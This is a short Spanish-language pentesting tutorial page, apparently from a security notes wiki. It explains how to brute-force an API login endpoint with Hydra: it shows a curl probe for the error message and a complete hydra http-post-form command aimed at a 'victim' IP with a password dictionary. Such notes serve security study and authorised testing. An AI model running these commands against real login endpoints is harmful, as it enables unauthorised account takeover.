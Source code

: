 # ❓ API

## Fuerza bruta

Imagina que encuentras que un aplicativo web usar una API para hacer peticiones con las credenciales y así loguearse o no, pues en este caso, podemos hacer fuerza bruta con Hydra

### Hydra

{% hint style="info" %}
Los parámetros -l y -p pueden ser cambiados en función de nuestras necesidades, en el caso de que tengamos un diccionario (ya sea de usuario o contraseñas) ponemos el parámetro en mayúscula y le indicamos la ruta del diccionario, en el caso de que queramos probar con una contraseña o usuario concreto lo usaremos en minúscula.
{% endhint %}

En el siguiente comando, podemos ver que al final hay un string entre comillas, en este le deberemos de indicar separado por dos puntos en el siguiente orden:

1. El endpoint de la API (el endpoint al que manda la petición con las credenciales para verificarlas)
2. El contenido de la petición, imagina que al interceptarla aparece así :point\_down:deberás modificarla para que quede de esta manera :point\_down::point\_down:

```bash
{
    "username":"usuario",
    "password":"contraseña"
}
```

```ruby
username=^USER^&password=^PASS^
```

3. Por último deberemos de indicar el mensaje de error que nos dará la API en el caso de que las credenciales no sean validas, para saberlo, podemos hacer una petición con curl (p. ej: `curl -X POST http://IP/ENDPOINT -H "Content-Type: application/json" -d "{"username":"usuario","password":"contraseña"}"` .Es importante modificar el content-type al que necesite la API (puedes consultarlo haciendo una petición)

```perl
hydra -l usuario -P /ruta/diccionario.txt ipvictima http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
```
